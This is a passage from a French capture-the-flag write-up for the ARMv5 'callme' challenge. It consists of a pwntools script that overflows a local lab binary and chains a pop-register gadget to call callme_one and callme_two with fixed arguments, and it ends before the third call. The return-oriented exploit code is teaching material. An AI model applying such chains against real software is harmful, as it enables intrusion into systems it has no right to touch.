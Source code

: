 


## Exploitation

### Script python premier style

Le script python de la solution linéaire.

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('callme_armv5')

# 64 : read
# 84 : ret
gs='''
b *pwnme+84
c
'''

# 0x00010870 : pop {r0, r1, r2, lr, pc}
g_pop_r012 = 0x00010870

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


time.sleep(.5)


io.recvuntil(b"> ")

callme_one = elf.plt["callme_one"]
callme_two = elf.plt["callme_two"]
callme_three = elf.plt["callme_three"]

log.info(f"{callme_one=:x}")
log.info(f"{callme_two=:x}")
log.info(f"{callme_three=:x}")

offset=0x20

PL=b"A"*offset
PL+=p32(1)              # Pour fp

PL+=p32(g_pop_r012)
PL+=p32(0xdeadbeef)     # r0
PL+=p32(0xcafebabe)     # r1
PL+=p32(0xd00df00d)     # r2
PL+=p32(g_pop_r012)     # lr adresse de retour de callme
PL+=p32(callme_one)

PL+=p32(0xdeadbeef)     # r0
PL+=p32(0xcafebabe)     # r1
PL+=p32(0xd00df00d)     # r2
PL+=p32(g_pop_r012)     # lr adresse de retour de callme
PL+=p32(callme_two)

```